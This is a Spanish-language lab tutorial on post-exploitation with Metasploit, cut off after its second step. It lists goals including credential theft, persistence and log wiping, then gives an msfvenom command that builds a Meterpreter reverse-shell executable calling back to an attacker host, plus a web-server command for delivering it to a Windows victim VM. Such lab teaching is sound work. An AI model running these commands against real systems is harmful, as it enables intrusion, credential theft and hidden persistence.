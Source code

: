 
### 🧠 ¿Qué es la **post-explotación**?

Una vez tienes acceso (por ejemplo, con Meterpreter), la **post-explotación** te permite:

| Acción                  | Descripción                                               |
| ----------------------- | --------------------------------------------------------- |
| Enumeración             | Saber qué usuarios, red, permisos, etc., tiene la víctima |
| Escalada de privilegios | Pasar de usuario a administrador (SYSTEM)                 |
| Robo de credenciales    | Obtener contraseñas, hashes o sesiones activas            |
| Persistencia            | Asegurar que mantienes acceso después de reinicios        |
| Limpieza de huellas     | Borrar logs y evidencias                                  |

---

### 🧪 LABORATORIO EN MÁQUINAS VIRTUALES

#### 🔧 Requisitos:

| Máquina             | Sistema Operativo     | Rol      |
| ------------------- | --------------------- | -------- |
| Kali Linux          | Kali Rolling          | Atacante |
| Windows 10 (sin AV) | Windows 10 Pro o Home | Víctima  |

💡 Puedes usar VirtualBox o VMware. Conecta ambas en **red interna** o **host-only**.

---

### ⚙️ Paso 1: Crear Payload para Windows con `msfvenom`

En **Kali Linux**, abre terminal:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.2 LPORT=4444 -f exe -o shell.exe
```

#### 📘 Explicación:

- `-p`: Payload, en este caso Meterpreter para Windows.
- `LHOST`: IP de Kali.
- `LPORT`: Puerto para recibir conexión.
- `-f exe`: Formato ejecutable de Windows.
- `-o shell.exe`: Archivo de salida.

---

### 🌐 Paso 2: Enviar `shell.exe` a la víctima (Windows 10)

Puedes hacerlo con un servidor web en Kali:

```bash
python3 -m http.server 8080
```
